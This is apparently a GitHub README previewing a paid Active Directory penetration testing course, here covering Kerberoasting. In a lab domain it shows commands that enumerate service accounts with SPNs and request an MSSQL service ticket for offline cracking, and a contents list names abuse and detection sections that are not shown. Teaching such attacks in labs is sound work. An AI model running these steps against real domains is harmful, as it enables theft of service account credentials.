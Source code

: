 # W200 Preview

This repository contains a small preview of the W200 course, the full syllabus can be found: [here](https://shop.async.sg/pages/w200-syllabus-active-directory-penetration-testing).

- [W200 Preview](#w200-preview)
  - [Kerberoasting](#kerberoasting)
    - [Theory](#theory)
    - [Abuse](#abuse)
    - [Manual Roasting](#manual-roasting)
  - [Having Fun with Kerberos](#having-fun-with-kerberos)
    - [Roasting without SPNs](#roasting-without-spns)
    - [Service Principal Name, who?](#service-principal-name-who)
    - [Detection Opportunities](#detection-opportunities)
      - [NetExec](#netexec)
      - [Impacket](#impacket)
      - [Rubeus](#rubeus)


## Kerberoasting

In the `TGS_REP`, the `KDC` sends back a service ticket (ST) that's encrypted with the service account's password hash. This means that if an attacker can request a service ticket for a service account, they can then crack the resultant service ticket offline.

Earlier, we found that the `svc_sql` has `MSSQL` SPNs set:

```
(LDAP)-[dc02.asia.earth.local]-[ASIA\Nathan_CARTER]
PV > Get-DomainUser -SPN -Select cn,servicePrincipalName
cn                       : svc_sql
servicePrincipalName     : MSSQLSvc/SQL01.asia.earth.local:1433
                           MSSQLSvc/SQL01.asia.earth.local
```

### Theory

After authenticating as `async_testuser-001`, we can request a service ticket for the `MSSQLSvc/SQL01.asia.earth.local` service using `kvno`:

```
kvno MSSQLSvc/SQL01.asia.earth.local     
MSSQLSvc/SQL01.asia.earth.local@ASIA.EARTH.LOCAL: kvno = 2
```

We'll find that the `TGS-REQ` follows the structure as defined in [RFC 4120, Section 5.4.1](https://datatracker.ietf.org/doc/html/rfc4120#section-5.4.1) with an `sname` field containing an `sname-string` with [2 KerberosString structures](https://datatracker.ietf.org/doc/html/rfc4120#section-5.2.2):
1. `PrincipalName`: `MSSqlSvc`
2. `Realm`: `SQL01.asia.earth.local`
